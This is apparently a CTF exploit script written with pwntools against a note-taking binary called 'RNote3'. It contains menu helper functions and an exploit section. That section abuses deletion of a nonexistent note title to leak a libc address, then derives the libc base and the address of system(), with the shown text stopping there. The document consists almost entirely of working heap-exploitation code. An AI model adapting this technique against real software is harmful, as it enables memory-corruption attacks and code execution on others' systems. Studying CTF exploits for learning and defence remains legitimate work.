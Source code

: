 ```python
if mode == 'remote':
                r = remote(host_remote,port_remote)
elif mode == 'local':
                r = remote(host,port)
else:
        r = process('./RNote3')
        if start_gdb:
                if(os.environ.get('TMUX',False)):
                        context.terminal = ['tmux', 'splitw', '-h']
                        gdb.attach(r,gdb_cmds)
                else:
                        log.warning('Start a tmux session to get gdb attached!')

def new_note(note_title,note_size,note_content):
        r.sendline('1')
        r.recvuntil("input title: ")
        r.send(note_title)
        r.recvuntil("content size: ")
        r.sendline(str(note_size))
        r.recvuntil(" input content: ")
        r.send(note_content)

def view_note(note_title):
        r.sendline('2')
        r.recvuntil("note title: ")
        r.send(note_title)
        r.recvuntil("title: ")
        title = r.recvuntil("note cont")[:-9]
        r.recvuntil("ent: ")
        content = r.recvuntil('\n')[:-1]
        return(title,content)

def edit_note(note_title,new_content):
        r.sendline('3')
        r.recvuntil("input note title: ")
        r.send(note_title)
        r.recvuntil(" new content: ")
        r.send(new_content)

def delete_note(note_title):
        r.sendline('4')
        r.recvuntil("note title: ")
        r.send(note_title)

def exit():
        r.sendline('5')

r.recvuntil("5. Exit")

## BEGIN EXPLOIT

libc_base_offset = 0x3c4b78  ##computed manually looking at 3-4 executions with gdb


## LIBC LEAK 
new_note("aaa\n",200,"A"*200)
new_note("bbb\n",200,"B"*200)
edit_note("aaa\n","X"*200)
delete_note("S\n") ## we use a non existing title to trigger vulnerability
libc_leak = view_note("\n")[1]
libc_leak = u64(libc_leak.ljust(8,'\x00'))
libc_base_eff = libc_leak - libc_base_offset
system_eff = libc_base_eff + libc.symbols['system']
```